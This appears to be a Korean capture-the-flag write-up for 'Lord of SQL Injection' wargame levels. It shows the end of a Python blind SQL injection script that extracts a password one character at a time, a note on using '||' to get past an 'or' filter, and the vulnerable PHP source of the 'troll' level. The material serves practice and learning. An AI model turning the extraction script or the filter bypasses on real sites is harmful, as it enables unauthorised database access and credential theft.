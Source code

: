 ```python
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	

```



![image-20220608170211685](../img/image-20220608170211685.png)

`or`이 허용되지 않기에 `||` 기호를 사용하였고, 결과도 소문자로 대입해주었다.

![image-20220608170350213](img/image-20220608170350213.png)




<br><br><br>

-----

# LOS: troll

## 삽질

```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
